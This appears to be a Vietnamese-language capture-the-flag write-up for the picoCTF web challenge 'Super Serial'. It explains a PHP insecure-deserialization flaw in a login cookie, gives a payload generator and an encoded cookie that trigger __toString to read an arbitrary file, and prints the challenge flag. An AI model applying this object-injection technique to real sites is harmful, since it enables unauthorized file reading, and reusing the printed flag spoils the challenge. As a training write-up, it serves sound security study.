


# Super Serial

Category: Web Exploitation

Difficulty: Medium

Author: madStacks

---

## Challenge Description

> Try to recover the flag stored on this website.
>
> Hints: The flag is at ../flag

---

## Reconaissance

Khi đọc file `cookie.phps`, phát hiện đoạn mã:

```
if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}
```

Lỗ hổng: unserialize() nhận trực tiếp chuỗi Cookie login mà không lọc đối tượng cho phép. Bất kỳ class nào đã được nạp vào bộ nhớ của PHP tại thời điểm chạy đều có thể phục hồi từ chuỗi serialize này.

Trong file `authentication.phps`, ta thấy class `access_log` có hàm đọc file:

```class
class access_log {
    public $log_file;
    ...
    function read_log() {
        return file_get_contents($this->log_file); // Hàm đọc file tùy ý
    }
    function __toString() {
        return $this->read_log();
    }
}
```

Nên nếu kiểm soát được biến `$this->log_file = "../flag"` và kích hoạt được hàm `__toString()` thì có thể đọc được flag.

Quan sát tiếp luồng chạy `cookie.php`:

```
try {
    $perm = unserialize(...);
    $g = $perm->is_guest(); // Cố tình gọi hàm của class permissions
}
catch(Error $e) {
    die("Deserialization error. " . $perm); // Nối chuỗi với $perm
}
```

Ta thấy khi đưa vào đối tượng access_log, PHP cố chạy lệnh $perm-> is_guest(). Mà trong access_log k có hàm is_guest() nên sẽ ném ra lỗi Error.

Trong catch, lệnh die("..." . $perm) thực hiện nối chuõi với một đối tượng. Trong PHP, phép nối chuỗi này tự động kích hoạt Magic Method __toString() của đối tượng đó.

Chuỗi kích hoạt:`catch` --> `__toString()` --> `read_log()` --> `file_get_contents("../flag")`.

## Exploitation

Tạo một instance của class access_log với thuộc tính $log_file = "../flag". Sau đó tiến hành serialize đối tượng này và encode bằng base64 r gán vào cookie login.

Code tạo Payload:

```
<?php
class access_log {
    public $log_file = "../flag";
}

$payload = new access_log();
$serialized = serialize($payload);
echo urlencode(base64_encode($serialized));
?>
```

Thu được `cookie['login'] = TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9`

Tạo cookie trên F12:



Reload page và thu được flag:



flag: `picoCTF{1_c4nn0t_s33_y0u_2fba20fa}`
